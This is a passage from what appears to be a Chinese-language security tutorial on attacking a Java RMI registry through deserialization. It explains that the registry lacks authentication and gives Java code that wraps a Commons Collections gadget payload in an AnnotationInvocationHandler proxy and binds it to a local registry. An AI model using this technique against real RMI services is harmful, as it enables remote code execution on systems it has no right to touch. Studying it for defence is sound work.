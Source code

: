 上面说过，RMI反序列化参数的时候，若在本地找不到类，会在指定的codebase下加载类，而codebase可以由客户端指定

![image-20231012202718764](./../.gitbook/assets/image-20231012202718764.png)

## 攻击注册中心

注册中心和服务端是可以分开的，服务端可以使用`Naming`提供的接口来操作注册中心

```java
Naming.bind("rmi://127.0.0.1:1099/hello", hello);
```

![image-20231012204704491](./../.gitbook/assets/image-20231012204704491.png)

这里获取到的就是`Registry`的动态代理`ResgitryImpl_Stub`，同样`bind`和上面的`lookup`类似，不过就是操作数改变了。

依然存在序列化和反序列化。服务端将待绑定的对象序列化，注册中心收到后反序列化。

目前来看，貌似注册中心没有身份验证的功能，客户端都可以进行`bind`、`unbind`、`rebind`这些操作。

`bind`的参数要求是`Remote`类型，可以用CC1中的`AnnotationInvocationHandler`来动态代理`Remote`接口，反序列化的时候map的键值对都会分别反序列化。

```java
HashMap<String, Object> map = new HashMap<>();
map.put("p4d0rn", getPayload());

Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);
Remote remote = (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, invocationHandler);

Naming.bind("rmi://127.0.0.1:1099/test", remote);
```
